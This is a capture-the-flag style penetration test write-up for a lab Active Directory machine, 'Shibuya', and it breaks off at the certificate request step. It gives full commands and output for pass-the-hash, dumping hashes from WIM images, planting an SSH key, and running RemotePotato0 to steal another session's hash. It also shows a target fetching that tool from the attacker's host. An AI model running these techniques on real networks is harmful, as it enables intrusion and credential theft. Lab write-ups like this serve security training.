






# Complete Penetration Test Write-Up: Shibuya.vl

## Executive Summary

This penetration test on the `shibuya.vl` domain follows a multi-stage attack chain, beginning with credential discovery through SMB enumeration, progressing through WIM image extraction and hash cracking, and culminating in complete domain compromise via certificate abuse. The attack chain is as follows:

- **Initial Enumeration & Credential Discovery** — Enumerate SMB shares with low-privileged credentials (`red:red`), discovering the `svc_autojoin` account password stored in its Active Directory description field (`K5&A6Dw9d8jrKWhV`).
- **WIM Image Extraction & Hash Theft** — Access the `images$` administrative share using `svc_autojoin` credentials, download Windows Imaging Format (WIM) files containing complete OS installations, mount them locally, and extract password hashes from the SAM, SYSTEM, and SECURITY registry hives using `impacket-secretsdump`.
- **Hash Reuse & Lateral Movement** — Extract the `operator` account's NTLM hash (`5d8c3d1a20bd63f60f469f6763ca0d50`) from the WIM, discover that `simon.watson` reused the same password, and use Pass-the-Hash techniques to authenticate as `simon.watson` over SMB.
- **SSH Persistence** — Generate an SSH key pair and upload the public key to `simon.watson`'s `.ssh/authorized_keys` file via SMB, establishing persistent, interactive SSH access with SOCKS proxy capabilities.
- **Cross-Session Relay Attack** — Identify `nigel.mills` has an active RDP session (Session ID 1) using `qwinsta`, transfer `RemotePotato0.exe` to the target, set up a `socat` redirection on the attacker machine, and execute RemotePotato0 to steal `nigel.mills`' NTLMv2 hash.
- **Hash Cracking & Privilege Escalation** — Crack `nigel.mills`' hash with John the Ripper to recover the cleartext password `Sail2Boat3`, authenticate as `nigel.mills` over SSH, and confirm membership in the `t1_admins` group.
- **ADCS ESC1 Exploitation** — Enumerate Active Directory Certificate Services (ADCS) and identify the `ShibuyaWeb` certificate template as vulnerable to ESC1 (`Enrollee Supplies Subject` and `Client Authentication`). Use `certipy-ad` to request a certificate for the Administrator account.
- **Complete Domain Compromise** — Authenticate as Administrator via Pass-the-Hash, dump all domain hashes using `secretsdump`, and capture the root flag.

---

## Machine Information



| Detail | Value |
|:--|:--|
| **Machine Name** | Shibuya |
| **Hostname** | AWSJPDC0522 |
| **OS** | Windows Server 2022 Build 20348 |
| **Difficulty** | Medium |
| **Domain** | `shibuya.vl` |
| **Domain Controller** | `AWSJPDC0522.shibuya.vl` |
| **IP Address** | `10.129.234.42` |

---

## Reconnaissance

### Port Scanning Methodology

As a penetration tester, I begin every engagement with comprehensive port enumeration. I use a two-phase Nmap scanning strategy to efficiently identify open services without overwhelming the target or generating excessive noise.

**Full TCP Port Scan**

I first perform a rapid, high-speed scan across all 65535 TCP ports to identify which services are listening:

```bash
hyena@hyena:~$ nmap -sS -Pn --min-rate 5000 --max-retries 1 -T4 -p- 10.129.234.42
```

**Command Breakdown:**
- `-sS` — SYN stealth scan, quick and less likely to be logged
- `-Pn` — Skip host discovery; assumes the host is up
- `--min-rate 5000` — Send at least 5000 packets per second for speed
- `--max-retries 1` — Minimize retransmission delays
- `-T4` — Aggressive timing template for faster scanning
- `-p-` — Scan all 65,535 ports

**Results:**

```
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
51156/tcp open  unknown
51170/tcp open  unknown
51189/tcp open  unknown
54113/tcp open  unknown
62685/tcp open  unknown
```

**Key Observations:**
- Port 22 (SSH) is open — unusual for Windows Domain Controllers, suggesting potential SSH access later
- Port 445 (SMB) is open — primary attack vector for enumeration
- Port 88 (Kerberos) confirms Active Directory presence
- Ports 3268/3269 (LDAP Global Catalog) confirm Domain Controller role

**Service Version Detection**

I now run detailed version scans on the identified open ports to understand the target's software stack:

```bash
hyena@hyena:~$ nmap -sC -sV -O -p22,53,88,135,139,445,464,593,3268,3269,3389,9389,49664,49667,51156,51170,51189,54113,62685 10.129.234.42
```

**Key Findings:**
- **Domain:** `shibuya.vl`
- **DC Hostname:** `AWSJPDC0522.shibuya.vl`
- **OS:** Windows Server 2022 Build 20348
- **SSH Port 22 open** — Unusual for Windows Domain Controllers, suggesting potential SSH access later

### DNS Resolution

I add the domain and hostname to my `/etc/hosts` file to ensure proper name resolution throughout the engagement:

```bash
hyena@hyena:~$ echo "10.129.234.42 shibuya.vl AWSJPDC0522.shibuya.vl AWSJPDC0522" | sudo tee -a /etc/hosts
```

Active Directory relies heavily on DNS for Kerberos authentication, LDAP queries, and SMB communication. Without proper DNS resolution, many tools (like `impacket`, `certipy`, and `nxc`) will fail to authenticate properly.

---

## SMB Enumeration & Initial Credential Discovery

### Testing Weak Credentials

With SMB port 445 open and anonymous enumeration potentially available, I test the simplest possible credential pair: `username:password` where the password is the same as the username. This is a common misconfiguration I always check first.

```bash
hyena@hyena:~$ nxc smb shibuya.vl -u red -p red -k --users
```

**Command Breakdown:**
- `nxc` — NetExec (formerly CrackMapExec), a Swiss Army knife for Active Directory enumeration
- `smb` — Use the SMB protocol
- `shibuya.vl` — Target domain
- `-u red -p red` — Try credentials `red:red`
- `-k` — Use Kerberos authentication
- `--users` — Enumerate domain users

**Result:**
```
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\red:red
```

The `red` account was created with a weak password matching its username — a fundamental security misconfiguration.

### Discovering the svc_autojoin Password

The user enumeration output reveals a critical piece of information:

```
Username                    Last PW Set       BadPW  Description
----------------------------------------------------------------
svc_autojoin                 2025-02-15 07:51:49 0    K5&A6Dw9d8jrKWhV
```

**Critical Finding:** The password for the `svc_autojoin` service account is stored in its Active Directory **description field** — a common but dangerous administrative shortcut.

```bash
hyena@hyena:~$ nxc smb shibuya.vl -u svc_autojoin -p 'K5&A6Dw9d8jrKWhV' -k
```

**Result:**
```
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:K5&A6Dw9d8jrKWhV
```

### Share Enumeration

With valid service account credentials, I enumerate all available SMB shares:

```bash
hyena@hyena:~$ nxc smb shibuya.vl -u svc_autojoin -p 'K5&A6Dw9d8jrKWhV' -k --shares
```

**Results:**
```
Share           Permissions    Remark
-----           -----------    ------
ADMIN$                         Remote Admin
C$                             Default share
images$         READ
IPC$            READ           Remote IPC
NETLOGON        READ           Logon server share
SYSVOL          READ           Logon server share
users           READ
```

The `images$` share stands out — it's a hidden administrative share (`$` suffix) that is **readable** by `svc_autojoin`. Administrative shares typically contain sensitive data.

---

## WIM Image Extraction & Hash Theft

### Understanding WIM Files

Windows Imaging Format (WIM) files are file-based disk images used by Microsoft for OS deployment. They contain a complete Windows installation, including:

- Operating system files
- **Registry hives** (SYSTEM, SAM, SECURITY, SOFTWARE)
- User profiles and documents
- Installed applications

**Why This is Critical:** A WIM file is essentially a snapshot of a Windows installation. If we can access and mount it, we can extract password hashes from the registry — even without having direct access to the live machine.

### Connecting to images$ Share

Using the `svc_autojoin` credentials, I connect to the `images$` share:

```bash
hyena@hyena:~$ impacket-smbclient -k shibuya.vl/svc_autojoin:'K5&A6Dw9d8jrKWhV'@AWSJPDC0522.shibuya.vl
```

**Command Breakdown:**
- `impacket-smbclient` — Impacket's SMB client, more reliable than standard `smbclient` for large file transfers
- `-k` — Use Kerberos authentication
- `shibuya.vl/svc_autojoin:'K5&A6Dw9d8jrKWhV'` — Domain/Username:Password
- `@AWSJPDC0522.shibuya.vl` — Target DC hostname

**Inside the Share:**
```
# use images$
# ls
drw-rw-rw- 0 Wed Feb 19 18:35:20 2025 .
drw-rw-rw- 0 Wed Apr 9 02:09:45 2025 ..
-rw-rw-rw- 8264070 Wed Feb 19 18:35:20 2025 AWSJPWK0222-01.wim
-rw-rw-rw- 50660968 Wed Feb 19 18:35:20 2025 AWSJPWK0222-02.wim
-rw-rw-rw- 32065850 Wed Feb 19 18:35:20 2025 AWSJPWK0222-03.wim
-rw-rw-rw- 365686 Wed Feb 19 18:35:20 2025 vss-meta.cab
```

**Files Found:**
- `AWSJPWK0222-01.wim` — 8.2 MB, smaller disk image
- `AWSJPWK0222-02.wim` — 50.6 MB, larger disk image (most likely contains complete installation)
- `AWSJPWK0222-03.wim` — 32 MB, medium disk image
- `vss-meta.cab` — Volume Shadow Copy metadata (365 KB)

### Downloading the WIM Files

```
# Inside impacket-smbclient:
# get AWSJPWK0222-02.wim
# get AWSJPWK0222-01.wim
# get AWSJPWK0222-03.wim
# get vss-meta.cab
# exit
```

**Why impacket-smbclient Over smbclient:** During initial attempts, `smbclient` experienced timeouts (`parallel_read returned NT_STATUS_IO_TIMEOUT`) when transferring larger files. Impacket-smbclient handles large file transfers more reliably.

### Mounting the WIM

I mount the largest WIM file (`AWSJPWK0222-02.wim`) to access its filesystem:

```bash
hyena@hyena:~$ sudo mkdir -p /mnt/wim
hyena@hyena:~$ sudo wimmount AWSJPWK0222-02.wim /mnt/wim
```

**Command Breakdown:**
- `wimmount` — Mount a WIM file as a read-only filesystem
- `/mnt/wim` — Mount point directory

**What's Inside:**
```bash
hyena@hyena:~$ ls -la /mnt/wim/Windows/System32/config/
```

This directory contains the Windows registry hives:
- `SYSTEM` — Contains the bootkey (encryption key for SAM/SECURITY)
- `SAM` — Contains local user account hashes
- `SECURITY` — Contains cached domain credentials and LSA secrets
- `SOFTWARE` — Contains installed software information
- `DEFAULT` — Default user profile settings

### Extracting Credentials with secretsdump

I copy the registry hives to the local directory and extract password hashes:

```bash
hyena@hyena:~$ sudo cp /mnt/wim/Windows/System32/config/SYSTEM .
hyena@hyena:~$ sudo cp /mnt/wim/Windows/System32/config/SAM .
hyena@hyena:~$ sudo cp /mnt/wim/Windows/System32/config/SECURITY .
hyena@hyena:~$ sudo chown hyena:hyena SYSTEM SAM SECURITY
```

**Command Breakdown:**
- `cp /mnt/wim/...` — Copy files from mounted WIM
- `chown kali:kali` — Change ownership so non-root tools can read the files

**Extracting Hashes:**
```bash
hyena@hyena:~$ impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY local
```

**Command Breakdown:**
- `impacket-secretsdump` — Extract credentials from registry hives
- `-system SYSTEM` — Specify SYSTEM hive file (contains bootkey)
- `-sam SAM` — Specify SAM hive file (contains local user hashes)
- `-security SECURITY` — Specify SECURITY hive file (contains cached credentials)
- `local` — Process local files (not remote)

**Critical Output:**
```
[*] Target system bootKey: 0x2e971736685fc53bfd5106d471e2f00f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8dcb5ed323d1d09b9653452027e8c013:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
operator:1000:aad3b435b51404eeaad3b435b51404ee:5d8c3d1a20bd63f60f469f6763ca0d50:::

[*] Dumping cached domain logon information (domain/username:hash)
SHIBUYA.VL/Simon.Watson:$DCC2$10240#Simon.Watson#04b20c71b23baf7a3025f40b3409e325:
```



**Key Findings:**
- **operator NTLM Hash:** `5d8c3d1a20bd63f60f469f6763ca0d50`
- **Cached Domain Credential:** `SHIBUYA.VL/Simon.Watson` — This means Simon.Watson had logged into the machine captured in the WIM!
- **Administrator NTLM Hash:** `8dcb5ed323d1d09b9653452027e8c013`

---

## Lateral Movement to simon.watson

### Understanding Pass-the-Hash

The Pass-the-Hash (PtH) attack works because NTLM authentication uses the password hash directly to verify a user's identity. Instead of cracking the hash to get the password, we can present the hash directly to authenticate.

**Why This Works:** The `operator` account's NTLM hash (`5d8c3d1a20bd63f60f469f6763ca0d50`) is the same hash used by `simon.watson` — they reused the same password!

### Testing the Hash

```bash
hyena@hyena:~$ nxc smb shibuya.vl -u simon.watson -H 5d8c3d1a20bd63f60f469f6763ca0d50 -k
```

**Command Breakdown:**
- `-H` — Use NTLM hash instead of password (Pass-the-Hash)
- `5d8c3d1a20bd63f60f469f6763ca0d50` — The NTLM hash

**Result:**
```
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\simon.watson
```

### Accessing simon.watson's Home Directory

```bash
hyena@hyena:~$ impacket-smbclient simon.watson@shibuya.vl -hashes :5d8c3d1a20bd63f60f469f6763ca0d50
```

**Inside the Share:**
```
# use users
# cd simon.watson
# cd Desktop
# ls
drw-rw-rw- 0 Wed Apr 9 02:06:32 2025 .
drw-rw-rw- 0 Tue Feb 18 20:36:45 2025 ..
-rw-rw-rw- 32 Wed Apr 9 02:06:45 2025 user.txt
# get user.txt
```

**Success!** The `user.txt` flag is captured.

---

## SSH Persistence

### Why SSH Persistence Matters

While I have SMB access via Pass-the-Hash, an interactive shell provides:
- **Full command execution** — Run any Windows command or tool
- **SOCKS proxy** — Tunnel traffic through the DC for internal enumeration
- **Stable access** — SSH is less likely to be dropped than SMB sessions
- **Stealth** — SSH connections look like legitimate administrative access

### Generating the SSH Key

```bash
hyena@hyena:~$ ssh-keygen -t ed25519 -f /home/hyena/.ssh/shibuya_final -N ""
```

**Command Breakdown:**
- `-t ed25519` — Use Ed25519 algorithm (modern, secure, faster than RSA)
- `-f` — Output file path
- `-N ""` — No passphrase (automated connections without password prompts)

**Result:**
```
Generating public/private ed25519 key pair.
Your identification has been saved in /home/hyena/.ssh/shibuya_final
Your public key has been saved in /home/hyena/.ssh/shibuya_final.pub
The key fingerprint is:
SHA256:6NNmQ3Rw4Fv8y/3X+Q8Cb5tjGilaiFWk18Hackr8FZM hyena@hyena
```

### Uploading the Public Key

```bash
hyena@hyena:~$ impacket-smbclient simon.watson@shibuya.vl -hashes :5d8c3d1a20bd63f60f469f6763ca0d50
```

**Inside impacket-smbclient:**
```
# use users
# cd simon.watson
# mkdir .ssh
# cd .ssh
# put /home/hyena/.ssh/shibuya_final.pub authorized_keys
# ls
-rw-rw-rw- 93  authorized_keys
# exit
```

**Why authorized_keys:** Windows OpenSSH specifically looks for a file named `authorized_keys` (no extension) in the user's `.ssh` directory.

### Establishing SSH Access

```bash
hyena@hyena:~$ ssh simon.watson@shibuya.vl -i /home/hyena/.ssh/shibuya_final -p 22
```



**Result:**
```
Microsoft Windows [Version 10.0.20348.3453]
(c) Microsoft Corporation. All rights reserved.

shibuya\simon.watson@AWSJPDC0522 C:\Users\simon.watson>
```

**Verification:**
```bash
whoami
# shibuya\simon.watson
```

### Setting Up SOCKS Proxy

```bash
hyena@hyena:~$ ssh -D 1080 simon.watson@shibuya.vl -i /home/hyena/.ssh/shibuya_final -p 22 -N -f
```

**Command Breakdown:**
- `-D 1080` — Create a SOCKS proxy on local port 1080
- `-N` — No remote commands (just port forward)
- `-f` — Fork to background

**Verification:**
```bash
hyena@hyena:~$ netstat -tlnp | grep 1080
# tcp  0  0 127.0.0.1:1080  0.0.0.0:*  LISTEN
```

A SOCKS proxy lets me run internal scans through the Domain Controller, accessing services that aren't directly reachable from my attacker machine.

---

## Group Membership Enumeration

### Checking simon.watson's Privileges

```bash
hyena@hyena:~$ ssh simon.watson@shibuya.vl -i /home/hyena/.ssh/shibuya_final -p 22 "whoami /groups"
```

**Results:**
```
Group Name                                  Type             SID                                         Attributes
=========================================== ================ =========================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
SHIBUYA\shibuya                             Group            S-1-5-21-87560095-894484815-3652015022-1108 Mandatory group, Enabled by default, Enabled group
SHIBUYA\ssh                                 Group            S-1-5-21-87560095-894484815-3652015022-3101 Mandatory group, Enabled by default, Enabled group
SHIBUYA\t2_admins                           Group            S-1-5-21-87560095-894484815-3652015022-1104 Mandatory group, Enabled by default, Enabled group
Service asserted identity                   Well-known group S-1-18-2                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```



**Key Findings:**
- `simon.watson` is in `t2_admins` (Tier 2 Administrators)
- `simon.watson` is in `ssh` group (explains SSH access)

### Checking Privileges

```bash
hyena@hyena:~$ ssh simon.watson@shibuya.vl -i /home/hyena/.ssh/shibuya_final -p 22 "whoami /priv"
```

**Results:**
```
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

**Key Finding:** `SeMachineAccountPrivilege` — I can create machine accounts in the domain! This will be useful later.

---

## Cross-Session Relay Attack — Stealing nigel.mills Hash

### Finding Active Sessions

```bash
hyena@hyena:~$ ssh simon.watson@shibuya.vl -i /home/hyena/.ssh/shibuya_final -p 22 "qwinsta"
```

**Output:**
```
SESSIONNAME       USERNAME        ID  STATE   TYPE   DEVICE
rdp-tcp#0         nigel.mills     1   Active
console                           2   Conn
```

**Critical Finding:** `nigel.mills` has an active RDP session (Session ID 1). This makes him a target for RemotePotato0.

### Understanding RemotePotato0

**What RemotePotato0 Does:**
1. Injects a COM object into the target user's session (Session ID 1)
2. The COM object forces the user to authenticate via NTLM
3. Authentication is relayed to the attacker's machine
4. The NTLMv2 hash is captured

**Why This Works:** Windows allows cross-session COM activation, which can be abused to steal authentication from logged-in users.

### Transferring RemotePotato0

**On the Attacker Machine:**
```bash
hyena@hyena:~$ wget https://github.com/antonioCoco/RemotePotato0/releases/download/v1.0/RemotePotato0.exe
hyena@hyena:~$ python3 -m http.server 80
```

**In the SSH session (target):**
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.67/RemotePotato0.exe -OutFile C:\Users\simon.watson\Desktop\RemotePotato0.exe"
```

### Setting Up socat

```bash
hyena@hyena:~$ socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.234.42:8888
```

**Command Breakdown:**
- `socat` — Multi-purpose networking tool
- `-v` — Verbose output (shows captured data)
- `TCP-LISTEN:135,fork,reuseaddr` — Listen on port 135, fork for each connection, reuse address
- `TCP:10.129.234.42:8888` — Forward to target's port 8888

**Why Port 135:** Port 135 is Windows RPC (Remote Procedure Call). RemotePotato0 uses RPC to inject the COM object.

### Executing RemotePotato0

**In the SSH Session:**
```cmd
cd C:\Users\simon.watson\Desktop
RemotePotato0.exe -m 2 -r 10.10.14.67 -x 10.10.14.67 -p 8888 -s 1
```

**Command Breakdown:**
- `-m 2` — Module 2: RPC capture server + potato trigger (steals hash from active session)
- `-r 10.10.14.67` — Attacker IP (where the hash is sent)
- `-x 10.10.14.67` — External IP (used for OXID resolution)
- `-p 8888` — Port for socat listener
- `-s 1` — Target session ID (nigel.mills' session)

**Output:**
```
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] RPC relay server listening on port 9997 ...
[*] Starting RogueOxidResolver RPC Server listening on port 8888 ...
[*] IStoragetrigger written: 104 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 8888
[+] User hash stolen!
```

**Stolen Hash:**
```
NTLMv2 Client : AWSJPDC0522
NTLMv2 Username : SHIBUYA\Nigel.Mills
NTLMv2 Hash :
Nigel.Mills::SHIBUYA:1a57a1390ccfea9b:a40d4e74f98bf80087edd8efdbb77446:0101000000000000f2b99d0ddcc4db0130eb0bf86378bf170000000002000e005300480049004200550059004100010016004100570053004a0050004400430030003500320032000400140073006800690062007500790061002e0076006c0003002c004100570053004a0050004400430030003500320032002e0073006800690062007500790061002e0076006c000500140073006800690062007500790061002e0076006c0007000800f2b99d0ddcc4db01060004000600000008003000300000000000000001000000002000003dc2243a5b639685fac9278405368be5524dc257acbecea91b38b6036beeb36f0a00100000000000000000000000000000000000090000000000000000000000
```

### Cracking the Hash

```bash
hyena@hyena:~$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

**Command Breakdown:**
- `john` — John the Ripper password cracker
- `--wordlist=/usr/share/wordlists/rockyou.txt` — Use rockyou wordlist
- `hash` — File containing the NTLMv2 hash

**Result:**
```
Sail2Boat3 (Nigel.Mills)
```

**Cracked Password:** `Sail2Boat3`

---

## Lateral Movement to nigel.mills

### SSH Access

```bash
hyena@hyena:~$ ssh nigel.mills@shibuya.vl
Password: Sail2Boat3
```

**Result:**
```
Microsoft Windows [Version 10.0.20348.3453]
(c) Microsoft Corporation. All rights reserved.

shibuya\nigel.mills@AWSJPDC0522 C:\Users\nigel.mills>
```

### Verifying Privileges

```bash
whoami /groups
```

**Output:**
```
Group Name          Type             SID                                    Attributes
==================================== ================ ===================== ================
SHIBUYA\t1_admins   Group            S-1-5-21-...-1103 Mandatory group, Enabled by default
```

**Key Finding:** `nigel.mills` is a member of `t1_admins` — Tier 1 Administrators, with significant domain privileges.

### Checking Privileges

```bash
whoami /priv
```

**Output:**
```
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

**Key Finding:** Same privileges as simon.watson, but now with `t1_admins` group membership.

---

## Active Directory Certificate Services (ADCS) Enumeration

### What is ADCS?

Active Directory Certificate Services (ADCS) is Microsoft's Public Key Infrastructure (PKI) solution, used to issue digital certificates for:
- Kerberos authentication
- Smart card logon
- Encrypting File System (EFS)
- Secure email
- Web server SSL/TLS

**Why Attack ADCS:** Misconfigured certificate templates can allow any user to request a certificate as **Domain Administrator** — a critical privilege escalation path.

### Enumerating ADCS with certipy

```bash
hyena@hyena:~$ proxychains4 certipy-ad find -u nigel.mills@shibuya.vl -p Sail2Boat3 -dc-ip 10.129.234.42 -vulnerable -enabled
```

**Command Breakdown:**
- `certipy-ad find` — Enumerate ADCS certificate templates
- `-u nigel.mills@shibuya.vl` — Authenticating user
- `-p Sail2Boat3` — Password
- `-dc-ip 10.129.234.42` — Domain Controller IP

**Output:**
```
[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Retrieving CA configuration for 'shibuya-AWSJPDC0522-CA' via RRP
[*] Successfully retrieved CA configuration
[*] Saving text output to '20250722072205_Certipy.txt'
```

### Identifying the Vulnerability

**Output:**
```
Template Name                       : ShibuyaWeb
Display Name                        : ShibuyaWeb
Certificate Authorities             : shibuya-AWSJPDC0522-CA
Enabled                             : True
Client Authentication               : True
Enrollee Supplies Subject           : True  <-- VULNERABLE
[+] User Enrollable Principals      : SHIBUYA\t1_admins
[!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

**What is ESC1:** ESC1 occurs when a certificate template:
1. **Allows the enrollee to supply the subject** (can specify any user)
2. **Allows Client Authentication** (can authenticate as that user)

**Impact:** Any user with enrollment rights can request a certificate for **any user**, including the Domain Administrator.

---

## ESC1 Exploit — Certificate for Administrator

### Understanding the Attack Path

```
1. We are nigel.mills (t1_admins)
2. t1_admins can enroll in ShibuyaWeb
3. ShibuyaWeb allows Enrollee Supplies Subject
4. We request a certificate for "Administrator"
5. CA issues the certificate
6. We use the certificate to authenticate as Administrator
7. We get Administrator's NTLM hash
8. Pass-the-Hash --> Domain Admin
```

### Requesting the Certificate

